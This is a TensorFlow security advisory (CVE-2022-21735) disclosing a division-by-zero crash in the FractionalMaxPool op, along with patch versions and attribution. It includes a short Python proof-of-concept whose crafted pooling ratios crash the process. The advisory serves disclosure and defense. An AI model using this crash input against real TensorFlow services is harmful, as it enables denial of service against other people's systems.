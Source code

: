 ## TFSA-2022-014: Division by zero in `FractionalMaxPool`

### CVE Number
CVE-2022-21735

### Impact
The [implementation of `FractionalMaxPool`](https://github.com/galeone/tensorflow/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/tensorflow/core/kernels/fractional_max_pool_op.cc#L36-L192) can be made to crash a TensorFlow process via a division by 0:

```python
import tensorflow as tf
import numpy as np

tf.raw_ops.FractionalMaxPool(
  value=tf.constant(value=[[[[1, 4, 2, 3]]]], dtype=tf.int64),
  pooling_ratio=[1.0, 1.44, 1.73, 1.0],
  pseudo_random=False,
  overlapping=False,
  deterministic=False,
  seed=0,
  seed2=0,
  name=None)
```

### Patches
We have patched the issue in GitHub commit [ba4e8ac4dc2991e350d5cc407f8598c8d4ee70fb](https://github.com/galeone/tensorflow/commit/ba4e8ac4dc2991e350d5cc407f8598c8d4ee70fb).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Faysal Hossain Shezan from University of Virginia.
